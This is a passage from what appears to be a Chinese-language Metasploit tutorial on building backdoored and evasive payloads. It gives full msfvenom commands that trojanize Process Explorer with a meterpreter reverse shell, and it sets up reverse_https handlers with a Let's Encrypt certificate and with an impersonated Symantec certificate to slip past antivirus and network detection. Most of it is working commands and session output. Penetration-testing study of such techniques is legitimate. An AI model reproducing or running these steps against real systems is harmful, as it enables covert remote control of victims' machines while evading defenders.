- 1. 使用 -x 选项，我们可以指定自己的模板；在本教程中我们将使用 Windows Sysinternals 的 Process Explorer，并且通过使用 -k 选项，可以将你的有效载荷作为模板的新线程运行：
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -x procexp.exe -k -f exe -o procexp-backdoored.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 4440576 bytes
```
```
Saved as: procexp-backdoored.exe
root@kali:~#
```
- 2. 当受害者运行有效载荷时，他们不会意识到该应用程序已被植入后门：




创建 x64 有效载荷并使用自定义 x64 模板时，应使用 exe-only 作为输出格式，而不是 exe。

## 使用受信任证书的 Meterpreter 有效载荷

大多数安全解决方案也会进行网络入侵检测，通过分析进出目标机器的流量。在这种情况下，最有可能的是，即使我们可以使用编码器来绕过防病毒软件，我们的有效载荷在尝试连接到我们的侦听器时仍会被捕获。

### 准备工作

因为本教程使用有效的 TLS 证书，我使用了一台运行 Ubuntu 16、内存为 1 GB 的 DigitalOcean Droplet。配置一个自定义域名 zinitiative.com，并使用 Let’s Encrypt 获取证书。

### 如何操作...

在将域名的 DNS 服务器配置为指向 DigitalOcean Droplet 之后，使用 Let’s Encrypt 获取证书非常简单。

- 1. 首先，我们需要安装 letsencrypt，可以使用以下命令完成：
```
apt install letsencrypt -y
```
- 2. 接下来，运行 letsencrypt 命令生成证书，并按照说明操作：
```
letsencrypt certonly --manual -d zinitiative.com
```
- 3. 如果一切按预期进行，你应该在 /etc/letsencrypt/live/zinitiative.com 目录下拥有你的证书：
```
root@Metasploit:~# ls /etc/letsencrypt/live/zinitiative.com
cert.pem chain.pem fullchain.pem privkey.pem
```
- 4. 但在继续之前，我们必须创建一个包含 `privkey.pem` 和 `cert.pem` 的统一文件；为此我们将使用 `cat` 命令，如下所示：
```
root@Metasploit:~# cd /etc/letsencrypt/live/zinitiative.com/
root@Metasploit:/etc/letsencrypt/live/zinitiative.com# cat privkey.pem cert.pem >> /root/unified.pem
root@Metasploit:/etc/letsencrypt/live/zinitiative.com#
```
- 5. 要安装 Metasploit，请使用 Linux 和 macOS 快速安装脚本：
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```
- 6. 现在我们拥有所需的一切，可以使用 `HandlerSSLCert` 选项设置我们的侦听器以使用受信任的证书，证书路径为统一的 PEM 格式。为了在 Meterpreter 中启用证书验证，我们将 `StagerVerifySSLCert` 设置为 `true`，并将 `EnableStageEncoding` 设置为对第二阶段有效载荷进行编码，从而帮助我们绕过多个安全解决方案：
```
root@Metasploit:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST zinitiative.com
LHOST => zinitiative.com
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set HandlerSSLCert /root/unified.pem
HandlerSSLCert => /root/unified.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
StagerVerifySSLCert => true
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) > exploit
```
```
[*] Started HTTPS reverse handler on https://45.55.45.143:443
```
- 7. 接下来，我们将使用与之前教程相同的选项创建有效载荷，但这次使用域名 zinitiative.com 作为 LHOST 而不是 IP 地址：
```
root@Metasploit:~# msfvenom -p windows/meterpreter/reverse_https LHOST=zinitiative.com LPORT=443 -f exe -o trusted.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 484 bytes
Final size of exe file: 73802 bytes
Saved as: trusted.exe
root@Metasploit:~#
```
为了将有效载荷提供给我们的目标，我们可以使用 Python3 内置的 HTTP 服务器。

```
root@Metasploit:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```
- 8. 在目标机器上下载并运行我们的有效载荷后，我们可以看到我们有一个新的会话：
```
msf exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://45.55.45.143:443
[*] https://zinitiative.com:443 handling request from 62.169.66.5; (UUID: kkouk57g)
Meterpreter will verify SSL Certificate with SHA1 hash a408ac31831f41f50aa823cba7a0259ec32a2c9a
[*] https://zinitiative.com:443 handling request from 62.169.66.5; (UUID: kkouk57g) Encoded stage with x86/shikata_ga_nai
[*] https://zinitiative.com:443 handling request from 62.169.66.5; (UUID: kkouk57g) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (45.55.45.143:443 -> 62.169.66.5:24021) at 2017-12-18 10:30:20 +0000

meterpreter >
```

查看输出，我们可以看到 Meterpreter 验证了 SSL 证书，并使用 x86/shikata_ga_nai 编码器对 stage 进行了编码。

### 还有更多...

另一种更简单地绕过网络安全解决方案的方法是使用 HTTP SSL 证书冒充辅助模块来冒充 SSL 证书，然后使用它来加密有效载荷与侦听器之间的通信。

首先，我们需要冒充一个证书，这意味着我们将复制远程 SSL 证书并使用远程版本的信息创建一个本地（自签名）版本。在本教程中，我们将冒充 Symantec 的证书：
```
root@kali:~# msfconsole -q
msf > use auxiliary/gather/impersonate_ssl
msf auxiliary(gather/impersonate_ssl) > set RHOST www.symantec.com
RHOST => www.symantec.com
msf auxiliary(gather/impersonate_ssl) > run

[*] www.symantec.com:443 - Connecting to www.symantec.com:443
[*] www.symantec.com:443 - Copying certificate from www.symantec.com:443
/jurisdictionC=US/jurisdictionST=Delaware/businessCategory=Private Organization/serialNumber=2158113/C=US/postalCode=94043/ST=California/L=Mountain View/street=350 Ellis Street/O=Symantec Corporation/OU=Corp Mktg & Comms - Online Exp/CN=www.symantec.com
[*] www.symantec.com:443 - Beginning export of certificate files
[*] www.symantec.com:443 - Creating looted key/crt/pem files for www.symantec.com:443
[+] www.symantec.com:443 - key: /root/.msf4/loot/20171214142538_default23.214.223.177_www.symantec.com_506856.key
[+] www.symantec.com:443 - crt: /root/.msf4/loot/20171214142538_default23.214.223.177_www.symantec.com_101219.crt
```

[+] www.symantec.com:443 - pem: /root/.msf4/loot/20171214142538default_23.214.223.177_www.symantec.com_722611.pem
[*] 辅助模块执行完成
msf auxiliary(gather/impersonate_ssl) >

现在我们已经获取了证书，可以使用 MSFvenom 创建我们的有效载荷；在本教程中，我们还将通过使用 HandlerSSLCert 和 StagerVerifySSLCert 选项在有效载荷中使用该证书：

```
root@kali:~# msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.216.5 LPORT=443 HandlerSSLCert=/root/.msf4/loot/20171214142538default_23.214.223.177_www.symantec.com_722611.pem StagerVerifySSLCert=true -f exe -o payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 180825 bytes
Final size of exe file: 256000 bytes
Saved as: payload.exe
root@kali:~#
```

正如我们在上一教程中所做的那样，我们将设置监听器以使用冒充的证书，并且当受害者运行有效载荷时，我们将获得一个新的 Meterpreter 会话：

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter_reverse_https
PAYLOAD => windows/meterpreter_reverse_https
msf exploit(multi/handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set HandlerSSLCert /root/.msf4/loot/20171214142538default_23.214.223.177_www.symantec.com_722611.pem
HandlerSSLCert => /root/.msf4/loot/20171214142538default_23.214.223.177_www.symantec.com_722611.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
StagerVerifySSLCert => true
msf exploit(multi/handler) > exploit

[*] Meterpreter will verify SSL Certificate
[*] with SHA1 hash 554761fad28996e364b3ebf8f8d592c4a8b687fc
[*] Started HTTPS reverse handler on https://192.168.216.5:443
[*] https://192.168.216.5:443 handling request from 192.168.216.10; (UUID: ogrw285x)
Redirecting stageless connection from /CdCmZhL-Jt9xUHBRK2fV9w5dEyxhGKdPF3tBnrHYW0bYOqdw p34rKeD with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.216.5:443 handling request from 192.168.216.10; (UUID: ogrw285x) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.216.5:443 -> 192.168.216.10:51665) at 2017-12-18 11:21:11 +0000

meterpreter >
```
